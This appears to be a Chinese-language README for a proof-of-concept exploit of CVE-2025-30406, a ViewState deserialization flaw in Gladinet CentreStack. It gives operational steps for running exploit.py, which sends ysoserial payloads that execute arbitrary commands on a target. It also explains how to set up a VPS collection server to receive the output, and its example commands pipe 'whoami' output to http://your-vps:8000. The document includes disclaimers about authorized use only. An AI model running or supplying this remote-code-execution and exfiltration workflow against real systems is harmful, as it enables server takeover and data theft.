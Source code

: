 ```yaml
---
date: 2025-08-04T19:06:14+08:00
title: "Gladinet Centrestack硬编码加密密钥漏洞利用分析(CVE-2025-30406)"
tags: [漏洞利用, 网络安全, ASP.NET, 反序列化]
authors: qife
description: "本文详细分析了CVE-2025-30406漏洞利用原理，该漏洞存在于ASP.NET ViewState反序列化过程中，攻击者可通过硬编码的加密密钥实现远程代码执行。包含PoC脚本实现细节及安全测试建议。"
---
```


# CVE-2025-30406 ViewState漏洞利用验证

## 漏洞概述
这是一个针对ASP.NET应用中**CVE-2025-30406**的ViewState反序列化漏洞验证脚本(PoC)。该脚本利用ysoserial生成恶意ViewState载荷，向指定URL发送以执行任意命令。建议将命令输出通过自定义HTTP服务器(`server.py`)回传至VPS，该服务器会以带时间戳的绿色提示符和白色输出文本的格式化方式展示结果。本脚本仅限**教育用途**，必须在获得**明确授权**的系统上使用安全测试。未经授权使用属违法行为。

## 漏洞详情
- **CVE编号**: CVE-2025-30406
- **漏洞描述**: ASP.NET ViewState处理过程中的反序列化漏洞，当验证密钥和生成器已知时可导致远程代码执行
- **受影响系统**: 存在ViewState配置漏洞的ASP.NET应用
- **利用前提**:
  - 获取有效的ViewState验证密钥和生成器
  - 存在接收ViewState参数的脆弱端点

## 仓库内容
- `exploit.py`: 生成和发送ViewState载荷的主脚本
- `server.py`: 接收并格式化显示回传命令输出的HTTP服务器


## 环境要求
- Python 3.x
- `requests`库(`pip install requests`)
- ysoserial可执行文件
- 存在漏洞的ASP.NET应用端点
- 用于运行`server.py`的VPS服务器(建议用于数据回传)
- 目标系统的测试授权

## 安装步骤
1. 克隆仓库:
   ```bash
   git clone https://github.com/yourusername/cve-2025-30406-poc.git
   cd cve-2025-30406-poc
   ```
2. 安装Python依赖:
   ```bash
   pip install requests
   ```
3. 下载ysoserial并置于`exploit.py`同目录:
   - [ysoserial GitHub](https://github.com/frohoff/ysoserial)

## VPS配置建议
在VPS上运行`server.py`接收格式化输出:
1. 复制脚本到VPS:
   ```bash
   scp server.py user@your-vps-ip:/home/user/
   ```
2. 确保安装Python3:
   ```bash
   sudo apt update && sudo apt install python3 python3-pip
   ```
3. 启动服务器(默认8000端口):
   ```bash
   python3 server.py
   ```
4. 开放防火墙端口:
   ```bash
   sudo ufw allow 8000
   ```
5. 记录VPS公网IP(如`http://your-vps-ip:8000`)供`exploit.py`的`-e`参数使用

## 使用方法
### 执行漏洞利用
运行`exploit.py`时必须指定参数。`-e`参数可选但建议用于回传输出:

```bash
python exploit.py -u  -c  [-y ] [-e ]
```

#### 参数说明
- `-u, --url`: 目标URL(必选)
- `-c, --command`: 待执行命令(必选)
- `-y, --ysoserial`: ysoserial路径(默认`./ysoserial.exe`)
- `-e, --exfil`: 回传服务器URL(如`http://your-vps:8000`)

#### 使用示例
1. 无回传执行:
   ```bash
   python exploit.py -u http://example.com/loginpage.aspx -c "whoami" -y ./ysoserial.exe
   ```
2. 带回传执行:
   ```bash
   python exploit.py -u http://example.com/loginpage.aspx -c "whoami" -y ./ysoserial.exe -e http://your-vps:8000
   ```

### 启动回传服务器
在VPS上启动HTTP服务器接收输出:
```bash
python3 server.py
```
服务器将以带时间戳的绿色提示符格式化显示命令输出。

## 技术原理
1. **漏洞利用脚本**:
   - 使用硬编码验证密钥通过ysoserial生成ViewState载荷
   - 当指定`-e`参数时，通过`Invoke-WebRequest`封装命令输出回传
   - 通过POST请求向目标URL的`__VIEWSTATE`参数提交载荷
   - 输出服务器响应状态和部分响应体
2. **HTTP服务器**:
   - 监听包含命令输出的GET请求
   - 解码URL路径并按行分割
   - 以带时间戳的绿色提示符格式化输出
   - 返回HTTP 200响应

## 道德使用声明
- 本脚本仅限CVE-2025-30406的教育研究和授权测试
- **禁止在未授权系统上使用**
- 滥用可能违反《计算机欺诈和滥用法案》(CFAA)等法律
- 测试前必须获取书面授权
- 请通过协调披露或漏洞赏金计划进行负责任的漏洞报告

## 已知限制
- 硬编码验证密钥可能仅适用于特定应用
- 仅针对存在ViewState反序列化漏洞的ASP.NET应用
- 需假设目标服务器能正确处理ViewState载荷
- 跨平台兼容性依赖ysoserial可用性(主要支持Windows)
- 回传功能需要服务器具有公网可达性

## 许可协议
本项目采用MIT许可证，详见LICENSE文件。

## 联系方式
